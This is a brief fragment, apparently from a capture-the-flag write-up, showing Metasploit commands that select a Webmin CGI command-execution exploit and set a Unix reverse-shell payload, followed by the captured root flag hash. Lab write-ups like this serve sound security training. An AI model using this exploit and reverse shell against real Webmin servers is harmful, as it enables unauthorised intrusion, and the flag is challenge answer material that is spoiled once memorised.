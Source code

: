## Metasploit

* `msf5 > use unix/webapp/webmin_show_cgi_exec` 
* `msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse`
* root.txt - `a4b945830144bdd71908d12d902adeee`


